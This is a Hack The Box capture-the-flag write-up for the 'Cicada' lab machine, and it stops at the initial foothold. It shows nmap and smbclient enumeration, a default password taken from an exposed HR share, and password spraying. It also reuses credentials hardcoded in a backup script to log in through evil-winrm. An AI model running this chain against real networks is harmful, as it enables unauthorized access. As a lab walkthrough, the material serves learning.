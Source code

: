 ```yaml
---
title: "Cicada - Hack The Box Machines"
date: 2024-10-30 08:00:00 - 0500
categories: [Hack The Box, Machines]
tags: [htb, machine, linux, easy]
image: 
  path: /assets/img/posts/htb/htb.png
---
```



## Reconnaisance

Hello and welcome back to noob in cybersecurity and today I will show you the way that I solved the Cicada challenge on Hack The Box

To start tackling the Cicada challenge on Hack The Box, I will focus on reconnaissance and initial footprinting using tools like Nmap. This initial phase sets the foundation for  a successful hack by providing insights into the target’s infrastructure and possible weak points.

```bash
yzx@machine:~/workspace/hackthebox$ nmap -p- $cicada -T4 --min-rate=2000 -oN cicada/scan -Pn --disable-arp-ping
Starting Nmap 7.80 ( https://nmap.org ) at 2024-10-31 11:26 EDT
Nmap scan report for 10.x.x.x
Host is up (0.13s latency).
Not shown: 65522 filtered ports
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
57635/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 98.66 seconds
```
{: .nolineno }

```bash
echo '10.10.x.x cicada.htb' | sudo tee -a /etc/hosts
```
{: .nolineno }

## SMB
From the  results of the Nmap scan, we can see that the SMB (Server Message Block) share is enabled, which can reveal valuable information when properly explored. To connect to an SMB share, I often use tools like smbclient . To begin the process, I used a command like `smbclient -L //cicada.htb -U 'guest'` to list available shares. 

```bash
yzx@machine:~/workspace/hackthebox$ smbclient -L //cicada.htb
Password for [WORKGROUP\yzx]:

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	DEV             Disk      
	HR              Disk      
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	SYSVOL          Disk      Logon server share 
SMB1 disabled -- no workgroup available
```
{: .nolineno }

We can see some sharename such as: `DEV` , `HR`, etc … 

Upon further exploration of the HR directory, I discovered that there is a file named `Notice from HR.txt` , and to find out the content of this file is, I opened it.

![](/assets/img/posts/htb/cicada/smbclient list share.png){: width="972" height="589" }

![](/assets/img/posts/htb/cicada/smbclient HR dir.png){: width="972" height="589" }


```
Dear new hire!

Welcome to Cicada Corp! We're thrilled to have you join our team. As part of our security protocols, it's essential that you change your default password to something unique and secure.

Your default password is: Cicada$M6Corpb*@Lp#nZp!8

To change your password:

1. Log in to your Cicada Corp account** using the provided username and the default password mentioned above.
2. Once logged in, navigate to your account settings or profile settings section.
3. Look for the option to change your password. This will be labeled as "Change Password".
4. Follow the prompts to create a new password**. Make sure your new password is strong, containing a mix of uppercase letters, lowercase letters, numbers, and special characters.
5. After changing your password, make sure to save your changes.

Remember, your password is a crucial aspect of keeping your account secure. Please do not share your password with anyone, and ensure you use a complex password.

If you encounter any issues or need assistance with changing your password, don't hesitate to reach out to our support team at support@cicada.htb.

Thank you for your attention to this matter, and once again, welcome to the Cicada Corp team!

Best regards,
Cicada Corp
```

![](/assets/img/posts/htb/cicada/crackmapexec.png){: width="972" height="589" }

```
# list user
sarah.dantelia
michael.wrightson
david.orelious
emily.oscars
```
{: .nolineno }

![](/assets/img/posts/htb/cicada/crackmapexec%20with%20default%20password.png){: width="972" height="589" }

![](/assets/img/posts/htb/cicada/enum.png){: width="972" height="589" }

![](/assets/img/posts/htb/cicada/image%206.png){: width="972" height="589" }

![](/assets/img/posts/htb/cicada/smb%20david.png){: width="972" height="589" }

```
$sourceDirectory = "C:\smb"
$destinationDirectory = "D:\Backup"

$username = "emily.oscars"
$password = ConvertTo-SecureString "Q!3@Lp#M6b*7t*Vt" -AsPlainText -Force
$credentials = New-Object System.Management.Automation.PSCredential($username, $password)
$dateStamp = Get-Date -Format "yyyyMMdd_HHmmss"
$backupFileName = "smb_backup_$dateStamp.zip"
$backupFilePath = Join-Path -Path $destinationDirectory -ChildPath $backupFileName
Compress-Archive -Path $sourceDirectory -DestinationPath $backupFilePath
Write-Host "Backup completed successfully. Backup file saved to: $backupFilePath"
```
{: .nolineno }

```bash
# evil-winrm -i cicada.htb -u "emily.oscars" -p "Q!3@Lp#M6b*7t*Vt"
```